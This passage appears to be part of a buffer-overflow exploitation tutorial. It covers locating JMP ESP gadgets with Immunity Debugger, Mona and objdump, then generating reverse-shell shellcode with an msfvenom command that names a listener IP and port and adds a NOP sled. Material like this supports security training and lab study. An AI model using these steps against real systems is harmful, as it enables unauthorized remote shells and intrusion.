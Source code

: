 ### Alternatives
If no results were found in step 4, try Search for > Sequence of commands, enter the following, and use that address instead:
```
push esp
retn
```

If there are still no results, try finding those commands elsewhere in the program's DLLs with Mona.

1. List all DLLs being used with `!mona modules` at the bottom of Immunity Debugger
2. Try finding a module that has nearly all security features in "False" state (Rebase, SafeSEH, ASLR, NXCompat)
3. Click on `e` in Immunity Debugger to open "Executable Modules" window
4. Locate the module and double click on it
5. Repeat steps 2-6 in the previous section to search for instructions

If there are still no results, which is uncommon for complex modules, no worries. The default "Search for" function in Immunity Debugger only searches within executable regions, which is usually in the `.text` segment of the module, which can be viewed by clicking on `m` in Immunity Debugger. Notice the `R E` in the same row as the module's `.text` segment. If the program is compiled with DEP support, the `JMP ESP` would **have** to be located within `.text` segment. If it is not, fortunately you can find the instructions in non-executable segments as well.

Since we can't use Immunity Debugger "Search for" function, we'll have to use Mona to find the instructions for us

1. Find the opcode for the `JMP ESP` instruction with `/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb` and type in `jmp esp`. The result is `FFE4`
2. In Immunity Debugger, type `!mona find -s "\xff\xe4" -m [module.dll]` to search for the instruction within the entire module
3. Pick a result that does not contain any bad characters in the address
4. Jump to the address location by clicking on the black "wall bang"-looking button in the Immunity Debugger toolbar, and entering the address
5. Confirm that the instructionn is `JMP ESP`
6. Record the address of the instruction

### Linux Objdump
You can use Kali to find the offset of certain instructions from let's say a DLL:
```sh
objdump -D -M intel user32.dll | grep 'jmp.*esp' | head
```

## Generate Shellcode
1. Generate shellcode payload with `msfvenom -p windows/shell_reverse_tcp -a x86 --platform windows LHOST=192.168.1.23 LPORT=443 -f c -b '\x00' -e x86/shikata_ga_nai EXITFUNC=thread`, swap out with your listener IP and port, bad chars with `-b '\x00,\x0A,\x0D'` for example, etc. The `EXITFUNC=thread` ensures that only the thread serving your exploit is terminated, not the entire process by default
2. Paste in a NOP sled of about 16 `\x90`s after the overwritten EIP, and then the shellcode, and then the padding. Since the shellcode decoder is going to require some workspace in the stack (the same area where the shellcode is being stored), it will require some buffer space to avoid "stepping on its own toes".
3. Open a listener and pop the shell
